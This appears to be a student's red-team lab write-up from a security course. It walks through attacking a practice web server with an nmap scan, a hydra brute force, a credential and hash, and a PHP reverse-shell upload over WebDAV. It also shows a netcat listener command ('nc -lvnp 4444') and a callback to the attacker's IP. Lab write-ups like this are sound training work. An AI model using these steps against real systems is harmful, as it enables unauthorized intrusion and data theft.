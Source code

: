 # Rob Myers Week 20 Project 2: RED TEAM 

###  First things first: SET UP

### [SET UP](setup.md) 
---

## RED TEAM Pen Test: 

* Attempt to gain access to Summit Card Union Website: IP Address: 192.168.1.105
* Perform a Brute Force Attack
* Crack user passwords
* Establish Remote Access via Reverse Shell

Enter the command: NMAP -sV 192.168.1.105

![pic](1.PNG)

### From the Nmap scan we can see that port 80 is open. Open a web browser and navigate the Summit Card Union Website.

![pic](2.PNG)

* Investigating the website you find access to the following:
    - Company Blog
    - Company Folders
    - Company Share Folder
    - Meet our Team Link

Click on the WEB SITE Link to see questionable vulnerabilities:

### [WEB SITE](website.md) 

### From our investigation navigating the Summit Card Union Website we discovered the "Secret Folder" is not accessible to the public. Lets try and find it!

* we discovered the error: "company_folders/secret_folder is no longer accessible to the public"

* This looks like a direct path to me and.........

* Look what we discovered!

![pic](3.PNG) 

### We know that Ashton manages the "Secret Folder". Lets try HYDRA and BRUTE FORCE to gain access to the Secret Folder.

### [BRUTE FORCE](brute.md) 

Now that we have learned Ashton's Password from using Hydra, enter them into the Sign-in page:

* Username: ashton

* Password: leopoldo 

![pic](5.PNG) 

## Success!!! 

![pic](6.PNG) 

### Click on Connect to corp server:

**NOTE**: Notice that there are instructions on how to establish a remote connection using the companies webdav server.

* NOTE: Ashton has access to Ryan's user name and password. This is another example of poor security practices

![pic](7.PNG) 

### Connect to the WebDAV

* We need to crack Ryan's Hash to access his password:  Hash:d7dad0a5cd7c8376eeb50d69b3ccd352
* Connect to the server via WebDAV to establish a remote connection

### [Webdav](webdav.md) 

## Set up our reverse shell payload:

* We can establish our remote connection via WebDev and establish our reverse shell one of two ways:

    - Upload our PHP reverse shell payload using msfvenom 
    - Upload our PHP reverse shell payload using pre-installed web-shells in our LINUX Terminal

![pic](rev.PNG) 

NOTE: Nano reverse_shell.php and set your local host IP (192.168.1.90) and Port (4444)

![pic](rev1.PNG)

Lets load our reverse_shell.php Payload into our WebDev to establish our (PHP)Reverse Shell

![pic](10.PNG) 

Before we can deploy our payload to establish our reverse shell we need to run the Net Cat command to establish communication on port 4444

* nc -lvnp 4444

![pic](11.PNG) 
  
Now lets establish remote access control of the server (192.168.1.105) via our WebDav connection and deliver our payload effectively establishing a reverse shell

* Return to the website: 192.168.1.105/webdev

![pic](12.PNG)  

* click on the reverse_shell.php to deliver the payload
* NOTE: if the connection is successful the webpage should "hang"
* Linux Terminal will also change from root@Kali to a $ symbol 

## You have now successfully established the reverse shell and have full control of all data in the server. 

![pic](13.PNG)  

Picture: Example of the attacker having access to ROOT and changing directory to /USR

* The attacker could now download private, sensitive proprietary information, delete files, and or basically take down the entire server

![pic](14.PNG)  













